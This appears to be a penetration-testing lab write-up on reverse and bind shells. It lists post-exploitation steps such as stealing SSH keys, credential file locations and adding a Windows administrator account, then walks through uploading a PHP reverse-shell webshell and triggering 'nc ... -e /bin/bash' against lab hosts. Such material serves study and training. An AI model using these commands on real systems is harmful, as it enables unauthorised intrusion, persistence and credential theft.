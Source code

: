 ## Next Steps
* Shells tend to be unstable and non-interactive.
* Look for opportunities to gain access to a user account on Linux.
  * SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this.
  * Some exploits will also allow addition of a new account.
  * [Dirty C0w](https://dirtycow.ninja/) or a writeable `/etc/shadow` or `/etc/passwd` would quickly give SSH access to the machine.
* Options are more limited on Windows.
  * Sometimes possible to find passwords for running services in the registry.
    * VNC servers frequently leave passwords in the registry stored in plaintext.
  * Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`.
    * These can be MD5 hashes or in plaintext depending on the version.
  * Ideally want to obtain a shell running as the SYSTEM user or an administrator account running with high privileges.
    * Possible to add an account (in the administrators group) to the machine.
```
net user <username> <password> /add
```
```
net localgroup administrators <username> /add
```  
    * Log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods dependent on the services running on the box.

## Important takeaway
* Reverse and Bind shells are essential techniques for gaining remote code execution on a target host.
* They will never be as fully featured as a native shell.
* Always try to escalate into using a 'normal' method for accessing the machine as this will invariably be easier to use for further exploitation of the target.

## Practice and Examples
> Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on the attaching machine.
   
1. Navigate to `/usr/share/webshells/php/php-reverse-shell.php`.
2. Make a copy of the supplied webshell on the attacking machine’s Desktop.
```
cp  /usr/share/webshells/php/php-reverse-shell.php ./Desktop
```
3. Change the IP and port of the webshell to match the attacking machine’s IP with a custom port.
 * `vim ./Desktop/php-reverse-shell.php`.
 * Press `i` to enter insert mode.
 * Change ip to 10.10.52.172.
 * Press `Escape` to enter Command mode.
 * Press `:wq` to save changes and exit file.
4. Set up a netcat listener on the attack machine.
```
nc -lvnp 1234
```
5. Upload webshell to target.
  * Browse to `http://10.10.62.10` from attacking machine.
  * Click ‘Browse’ button.
  * Navigate to `/root/Desktop/php-reverse-shell.php`.
  * Click ‘Open’ to select the file.
  * Click ‘Submit’ to upload the file.
6. Execute webshell on target.
  * Amend URL to `http://10.10.62.10/uploads/php-reverse-shell.php?cmd=nc 10.10.52.172 1234 -e /bin/bash`.
  * Reverse shell creates session back to listener.
```
Connection from 10.10.62.10 34914 received!
```